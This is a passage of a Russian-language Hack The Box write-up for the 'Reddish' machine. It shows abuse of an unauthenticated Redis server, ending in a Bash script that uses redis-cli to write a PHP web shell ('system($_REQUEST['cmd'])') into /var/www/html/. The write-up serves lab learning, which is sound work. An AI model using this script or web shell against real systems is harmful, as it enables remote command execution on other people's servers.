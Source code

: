 Как предлагают [в этом посте](https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html), проверим, нужна ли авторизация для взаимодействия с БД.

![redis-no-auth-req.png](/assets/images/htb/machines/reddish/redis-no-auth-req.png)
{:.center-image}

Похоже, что нет, а это значит, что можно дальше раскручивать этот вектор. Я не буду инжектить свой открытый ключ в контейнер для подключения по SSH, как советуют на Packet Storm (потому что нет самого SSH), но зато никто не запрещает залить веб-шелл в расшаренную папку веб-севера.

Общаться с СУБД можно в простом подключении netcat/telnet, однако круче скачать и собрать нативный CLI-клиент [из исходников](https://github.com/antirez/redis) самой базы данных.

```
root@kali:~# git clone https://github.com/antirez/redis && cd redis
root@kali:~/redis# make redis-cli
root@kali:~/redis# cd src/
root@kali:~/redis/src# file redis-cli
redis-cli: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=c6e92b4603099564577d4027ba5fd7f20da68230, for GNU/Linux 3.2.0, with debug_info, not stripped
```

Чтобы удостовериться, что все работает, попробуем те команды, которые мы видели в сорцах веб-страницы.

![redis-redis-cli.png](/assets/images/htb/machines/reddish/redis-redis-cli.png)
{:.center-image}

Отлично, теперь можно сделать нечто более зловредное, а именно — записать веб-шелл в `/var/www/html/`. Для этого нужно:

1. [Очистить](https://redis.io/commands/flushall) ключи для всех БД.
2. [Создать](https://redis.io/commands/set) в новой БД новую пару `<ключ>, <значение>` с веб-шеллом в качестве значения.
3. [Задать имя](https://redis.io/commands/config-set) новой БД.
4. [Задать путь](https://redis.io/commands/config-set) для сохранения новой БД.
5. [Сохранить](https://redis.io/commands/save) файл новой БД.

Интересный момент: Redis оптимизирует хранение значений, если в них присутствуют повторяющиеся паттерны, поэтому не всякий пейлоад, записанный в БД, отработает корректно.

Напишем скрипт на Bash, который будет «проигрывать» эти пять шагов выше. Автоматизация нужна, так как вскоре выяснится, что веб-директория очищается каждые три минуты.

```bash
#!/usr/bin/env bash

~/redis/src/redis-cli -h localhost flushall
~/redis/src/redis-cli -h localhost set pwn '<?php system($_REQUEST['cmd']); ?>'
~/redis/src/redis-cli -h localhost config set dbfilename shell.php
~/redis/src/redis-cli -h localhost config set dir /var/www/html/
~/redis/src/redis-cli -h localhost save
```

![redis-pwn-redis.png](/assets/images/htb/machines/reddish/redis-pwn-redis.png)
{:.center-image}


[//]: # (2020-02-17)